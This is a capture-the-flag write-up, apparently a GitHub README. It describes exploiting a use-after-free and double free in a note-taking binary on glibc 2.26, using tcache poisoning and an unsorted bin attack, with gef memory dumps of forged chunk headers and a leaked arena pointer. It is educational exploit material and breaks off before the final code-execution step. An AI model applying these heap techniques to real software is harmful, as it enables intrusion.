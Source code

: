 

The second vulnerability is UAF and double free in delete path:
```C
...
puts("ok that letter was bad anyways...");
free(curr);
...
```



In libc 2.26, tcache is introduced in order to optimize `malloc`'s allocation. Security check is not added, not until libc 2.29. We can treat chunk with size below 0x410 as fastbin (above, largebin). However, tcache can only store up to 7 heap chunks before reverting back to it's original fastbins and smallbins (same as 2.23). We're going to use [tcache poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c) in order to leak libc address and [unsorted bin attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c) to gain RCE.



### Exploitation

First, we're asked a name. We can use this to put two fake size header (0x150 and 0x80) for later use, and overwrite note counter to INT_MIN. Then, we use double free to write fake prev size and size (0x80), again for later use. 
```
gef> tel 0x602048 24
0x0000000000602048|+0x0000: 0x0000000000000161 -> fake size
0x0000000000602050|+0x0008: 0x0000000000000000
...
0x00000000006020d0|+0x0088: 0x0000000000000090 -> fake prev size
0x00000000006020d8|+0x0090: 0x0000000000000091 -> fake size
0x00000000006020e0|+0x0098: 0x0000000000000000
0x00000000006020e8|+0x00a0: 0x0000000000001337
0x00000000006020f0|+0x00a8: 0x0000000000000420
0x00000000006020f8|+0x00b0: 0x0000000080000000 -> note counter = INT_MIN
...
0x0000000000602160|+0x0118: 0x0000000000000090 -> fake prev size
0x0000000000602168|+0x0120: 0x0000000000000091 -> fake size
```



We allocate our chunk at name+8 using double free, and double free is again triggered (this time with 0x150 as our chunk's size). next we change the size from the fake chunk with double free to 0x91:
```
gef> tel 0x602048 2
0x0000000000602048|+0x0000: 0x0000000000000091
0x0000000000602050|+0x0008: 0x0000000000602050
```



We proceed to fill the tcache entry for 0x80 chunk by freeing the chunk 7 times, and putting the chunk in unsorted bin. Here is where the fake 0x90 prev size and size comes in; `malloc` checks whether the next chunk and two next chunk is a valid chunk with valid prev size or not. The caveat here is that we can't print the note nor name's content. We can do `unsorted bin attack` by double freeing and allocating at the bk of freed chunk. The next smallbin allocation will populate the chunk with main arena ptr:
```
gef> tel 0x602050 2
0x0000000000602050|+0x0000: 0x0000155555326d20 -> 0x0000155555326d10 -> 0x0000155555326d00 -> 0x0000155555326cf0 -> 0x0000155555326ce0 -> 0x0000155555326cd0 -> 0x0000155555326cc0
0x0000000000602058|+0x0008: 0x0000000000602040 -> 0x0000000000602058
```
